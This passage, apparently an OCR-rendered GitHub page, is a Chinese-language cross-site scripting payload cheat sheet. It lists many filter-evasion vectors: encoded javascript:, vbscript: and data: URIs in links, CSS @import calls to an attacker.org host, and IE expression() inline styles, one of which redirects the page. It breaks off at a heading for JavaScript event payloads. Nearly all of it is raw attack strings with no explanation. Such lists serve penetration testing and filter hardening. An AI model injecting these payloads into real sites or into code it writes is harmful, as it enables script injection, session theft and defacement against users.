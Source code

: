 <a href="javascript:alert('test')">link</a><br /><a href="java&#115;cript:alert('xss')">link</a><br /><a href='vbscript:MsgBox("XSS")'>link</a><br /><a href="vbscript:alert(1)">Hello</a><br /><a href="vbscript&#058;alert(1)">Hello</a><br /><a href=javascript:alert(&quot;XSS&quot;)>link</a><br /><a href=`javascript:alert("RSnake says,'XSS'")`>link</a><br /><a href=javascript:alert(String.fromCharCode(88,83,83))>link</a><br /><a href="javascript&colon;alert(1)">link</a><br /><a href="javaSCRIPT&colon;alert(1)">Hello</a><br /><a href="javasc&NewLine;ript&colon;alert(1)">link</a> <br /><a href="javas&Tab;cript:\u0061lert(1);">Hello</a><br /><a href="jav    ascript:alert('XSS')">link</a><br /><a href="jav&#x09;ascript:alert('XSS')">link</a><br /><a href="jav&#x0D;ascript:alert('XSS')">link</a><br /><a href=" &#14;  javascript:alert('XSS');">link</a><br /><a href="javascript:\u0061lert&#x28;1&#x29">Hello</a><br /><a href="javascript:confirm`1`">link</a><br /><a href="javascript:confirm(1)">link</a><br /><a href="j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1)">1</a><br /><a href="javascript:%61%6c%65%72%74%28%31%29">link</a><br /><a href="javascript:\u0061\u006C\u0065\u0072\u0074(1)">link</a><br /><a href=javascript:eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")>2</a><br /><a href=javascript:eval("&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#120;&#115;&#115;&#39;&#41;")>link</a>  <br /><a href=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>link</a><br /><a href=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>link</a><br /><a href=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>link</a><br /><a href="data:text/html;base64,amF2YXNjcmlwdDphbGVydCgxKQ==">test</a> <br /><a href=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+>1</a><br /><iframe/src="data:text&sol;html;&Tab;base64&NewLine;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
## 第二类：CSS import
<style>@import url("http://attacker.org/malicious.css");</style><br /><style>@imp\ort url("http://attacker.org/malicious.css");</style><br /><STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE><br /><STYLE>@import'http://jb51.net/xss.css';</STYLE>
## 第三类：Inline style
<div style="color: expression(alert('XSS'))"><br /><div style=color:expression\(alert(1))></div> <br /><div style="color: '<'; color: expression(alert('XSS'))"><br /><div style=X:expression(alert(/xss/))><br /><div style="x:\65\78\70\72\65\73\73\69\6f\6e(alert(1))"><br /><div style="x:\000065\000078\000070\000072\000065\000073\000073\000069\00006f\00006e(alert(1))"><br /><div style="x:\65\78\70\72\65\73\73\69\6f\6e\028 alert \028 1 \029 \029"><br /><STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS<br /><DIV STYLE="background-image: url(javascript:alert('XSS'))"><br /><STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A><br /><div style="z:exp/*anything*/res/*here*/sion(alert(1))"><br /><div style=xss:expr/*XSS*/ession(alert('XSS'))><br /></XSS/*-*/STYLE=xss:e/**/xpression(alert('XSS'))><br /></XSS/*-*/STYLE=xss:e/**/xpression(window.location="http://www.baidu.com")> <br /><img STYLE="background-image:url(javascript:alert('XSS'))"> //ie6  <br /><img STYLE="background-image:\75\72\6c\28\6a\61\76\61\73\63\72\69\70\74\3a\61\6c\65\72\74\28\27\58\53\53\27\29\29"> <br /><A STYLE='no\xss:noxss("*//*");xss:&#101;x&#x2F;*XSS*//*/*/pression(alert("XSS"))'>
## 第四类：JavaScript 事件